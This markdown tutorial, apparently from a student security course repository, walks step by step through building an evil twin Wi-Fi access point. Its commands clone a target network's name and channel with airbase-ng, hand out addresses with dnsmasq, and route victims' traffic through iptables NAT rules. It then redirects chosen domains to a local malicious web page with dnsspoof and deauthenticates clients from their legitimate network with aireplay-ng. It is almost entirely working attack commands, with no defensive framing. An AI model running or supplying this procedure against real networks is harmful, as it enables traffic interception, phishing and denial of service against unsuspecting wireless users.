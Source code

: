 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`
	You should see several devices such as eth0, wlan0, lo, etc.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.0-iwconfig.png)
	Now plug in your usb wireless adapter and run the command again.
	`iwconfig`
	You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet  
	`nmcli con`
	If it is connected, disconnect it from the network that is connected to our adapter
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID  
	 First update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	 Then get a list of all the devices broadcasting around you.
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command
	`airodump-ng -d <BSSID> wlan1mon`

11. Lets boost our signal strength, to the max legal limit in the US.  
	Note that not all wireless adapters support this.
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again check the signal strength with `iwconfig wlan1mon`

12. start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. 

13. Give the evil twin can access the internet.  
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

14. route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. evil twin is now setup, now need to allocate ip addresses to clients  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`
	Congratulations, you have setup hotspot for yourself.

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under `/var/www/html/index.html`. Ours is named index.html. 
	Start the server: `sudo /etc/init.d/apache2 start`

18. Your apache server is running locally. Record the IP address  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`
	Add urls you want to spoof to it. For example this will redirect anyone trying to visit http://www.example.com to our local apache server. 
	`127.0.0.1	example.com`
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic.

20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





